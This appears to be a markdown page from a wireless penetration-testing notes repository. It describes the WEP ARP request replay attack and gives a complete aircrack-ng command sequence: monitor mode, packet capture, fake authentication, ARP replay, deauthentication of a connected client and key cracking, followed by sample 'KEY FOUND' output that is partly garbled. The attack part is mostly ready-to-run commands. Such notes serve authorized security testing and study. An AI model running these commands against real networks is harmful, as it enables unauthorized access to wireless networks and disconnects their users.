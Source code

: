 # ARP Request Replay Attack (Attacking the AP/Connected) (WEP)

The classic ARP request replay attack is the most effective way to generate new initialization vectors (IVs), and works very reliably. The program listens for an ARP packet then retransmits it back to the access point. This, in turn, causes the access point to repeat the ARP packet with a new IV. The program retransmits the same ARP packet over and over. However, each ARP packet repeated by the access point has a new IVs. It is all these new IVs which allow you to determine the WEP key.

ARP is address resolution protocol: A TCP/IP protocol used to convert an IP address into a physical address, such as an Ethernet address. A host wishing to obtain a physical address broadcasts an ARP request onto the TCP/IP network. The host on the network that has the address in the request then replies with its physical hardware address.

## Commands

* Run [setup](../../setup.md) first
* Up to three terminals are needed
* At least one client must be associated with the AP

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $ADAPTER $CHANNEL

# Start monitoring - make terminal large enough to see everything
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG $INTERFACE

# [Terminal Two]
# Run the fake authentication attack first
sudo aireplay-ng --fakeauth 0 -a $BSSID -e $SSID -h $INTERFACEMAC $INTERFACE

# Run the ARP replay attack
sudo aireplay-ng --arpreplay -b $BSSID -h $INTERFACEMAC $INTERFACE

# Watch for the data to rapidly increase in the aireplay-ng window
# To speed things up, do the next step - deauthentication attack

# [Terminal Three]
# Run the deauthentication attack (to help facilitate ARP packets for IVs)
sudo aireplay-ng --deauth 7 -a $BSSID -c $CLIENT $INTERFACE

# Get lots and lots of IVs (several minutes > 150K data ... mileage may vary though)
# Stop everything

# Crack the WEP keister (ensure that plenty of IVs are captured beforehand)
sudo aircrack-ng -0 $PCAP
```
* Look for the suscessful output - assuming enough IVs are available

```
1 potential targets                                 Got 156299 out of 155000 IVsStarting PTW attack with 156299 ivs.
                     KEY FOUND! [ AA:BB:CC:DD:EE:FF ] (ASCII: 12345 )
Attack wDecrypted correctly: 100%00 captured ivs.
```

## References

* [Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=aircrack-ng)
* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
* [ARP Request Replay](https://www.aircrack-ng.org/doku.php?id=arp-request_reinjection)
